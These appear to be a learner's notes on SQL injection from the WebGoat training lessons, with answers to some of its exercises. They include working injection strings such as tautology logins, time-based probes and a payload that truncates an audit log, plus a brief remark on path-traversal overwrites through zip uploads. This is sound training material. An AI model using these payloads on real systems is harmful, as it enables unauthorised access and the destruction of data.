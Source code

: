 Some good tips picked up from the lessons in WebGoat:

- ' or 1=1; TRUNCATE audit_log;--
- ' or '1'='1
- SQL Injection is more common in PHP, ASP and ColdFusion
- SQL server exploits can lead to a command shell
- String concatenation with ' or + or ||
- Strings without quotes: char(27)
- SELECT * FROM users WHERE name = '+char(27) OR 1=1
- use prepared statements help mitigate SQL Injection
- implement whitelist with ORDER BY
- Use zip files to overwrite files after upload using path traversal

### Blind SQL Injection

- Involves asking 'database true or false questions' when server provides only generic error responses.
- Types include: content-based and time-based injections
- Find out what type of DB as that can provide insight to available system tables

````yaml title="Content-based"
    https://shop.example.com/?article=4 and 1=1 # (1)!
````

1.  If no error is thrown, then this DB might be susceptible to SQL Injection

````javascript title="Time-based"
    ' or 1=1; sleep(10);-- // (1)!
````

1.  If there is 10 second delay then this DB might be susceptible

---

## Solutions Intro
---

### WebGoat SQL (Intro) - Solution for exercise 9:

A classic??

````
' or '1'='1
````

### WebGoat SQL (Intro) - Solution for exercise 10:

````title="Login_Count:"
1
````
````yaml title="User_id:"
1 or 1=1 # (1)!
````

1.  These fields expect numbers and therefore no quotes are necessary.

### WebGoat SQL (Intro) - Solution for exercise 11:
